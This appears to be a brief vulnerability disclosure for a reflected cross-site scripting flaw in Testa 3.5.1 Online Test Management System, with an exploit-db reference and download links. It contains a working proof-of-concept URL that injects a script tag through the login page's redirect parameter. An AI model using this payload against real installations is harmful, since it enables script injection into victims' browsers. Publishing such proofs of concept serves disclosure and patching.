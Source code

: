 ```diff

@@Testa 3.5.1 Online Test Management System (Cross Site Scripting)@@

+ Version: 3.5.1
- Tested on Linux/Windows
# POC (Piye om carane)
! https://localhost/login.php?redirect=%22%3E%3Cscript%3Ealert(%22evil.com%22)%3C/script%3E
```

## Software & Reference
###### [https://www.exploit-db.com/exploits/51023](https://www.exploit-db.com/exploits/51023)
###### [https://download.aftab.cc/products/testa/Testa_wos_2.0.1.zip](https://download.aftab.cc/products/testa/Testa_wos_2.0.1.zip)
###### [https://www.apachefriends.org/download.html](https://www.apachefriends.org/download.html)
